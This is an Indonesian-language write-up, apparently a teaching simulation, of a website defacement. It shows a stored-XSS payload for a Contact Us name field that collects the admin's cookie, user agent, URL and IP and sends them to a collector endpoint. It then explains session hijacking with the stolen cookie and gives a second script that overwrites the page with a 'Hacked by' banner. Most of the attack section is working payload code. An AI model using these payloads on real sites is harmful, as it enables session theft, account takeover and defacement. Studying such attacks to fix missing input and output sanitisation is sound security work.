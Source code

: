 ## Simulation 1 - Mas John Website

Untuk melakukan deface pada mas John website hacker melakukannya dengan memanfaatkan celah XSS yang ada pada fitur Contact Us form. Tipe serangan yang dilakukan adalah `stored XSS`. Hacker mengirimkan payload XSS pada inputan field Nama yang ada pada form Contact Us.

Mas John tidak melakukan sanitasi terhadap karaker special pada HTML seperti `<`, `>`, `&`, `"`, `'`. Dengan tidak dilakukannya sanitasi maka inputan nama ketika ditampilkan pada admin area berpotensi mendapatkan serangan XSS.

Berikut ini adalah payload yang dikirimkan hacker pada inputan field Nama.

```
Pak Budi Baik<script>
var getTheirIp = function(onDone) {
    var ajax = new XMLHttpRequest();
    ajax.addEventListener('load', function(e) {
        onDone(this.responseText.replace("\n", ""));
    });
    ajax.open('GET', 'https://wtfismyip.com/text');
    ajax.send();
};

var postToMe = function(ipAddr) {
    var data = {
        UA: navigator.userAgent,
        Cookie: document.cookie,
        URL: location.href,
        TheirIP: ipAddr
    };

    var ajax = new XMLHttpRequest();
    var targetUrl = 'http://127.0.0.1:9091/collect/?data=' + JSON.stringify(data);

    ajax.open('GET', targetUrl);
    ajax.send();
};

getTheirIp( postToMe );
</script>
```

Fungsi dari payload diatas adalah mengirimkan data-data dari yang membuka pesan yang masuk di Contact Us dalam hal ini Mas John. Jadi ketika halaman Contact Us pada Admin area ditampilkan maka ia akan mengirimkan data ke alamat hacker yaitu `http://127.0.0.1:9091/collect/?data` informasi yang diambil adalah:

- User Agent
- Cookie
- URL
- IP dari admin

Ketika hacker sudah mendapatkan data-data diatas, dia akan mencoba untuk melakukan session hijacking dengan memanfaatkan cookie yang telah dicuri. Alamat URL sudah diketahui dari data yang diterima. Hacker tinggal mengubah Cookie pada browser sesuai dengan cookie admin yang dicuri dan harusnya akses bisa dibobol.

Langkah selanjutnya adalah melakukan deface dengan mengganti isi dari konten salah satu portfolio. Kita ambil contoh Portfolio berjudul Puisi Kita. Kebetulan Mas John tidak melakukan sanisasi terhadap output dari portfolio yang ditampilkan dari database. Sehingga memungkinkan hacker memasukkan kode HTML/Javascript apapun pada konten.

```
Puisi kita adalah sebuab website kolaborasi tulisan antar seniman puisi. Pengguna dapat mengirimkan puisi dan memberikan tanggapan pada setiap puisi yang ada.

<script>
var body = '<div style="text-align:center;margin-top:100px;"><h2>Hacked by Mas Kher</h2><p>Special thanks to 4L4Y_N4ME.</p></div>';
document.body.innerHTML = body;
document.body.style.color = 'white';
document.body.style.backgroundColor = '#111111';
</script>
```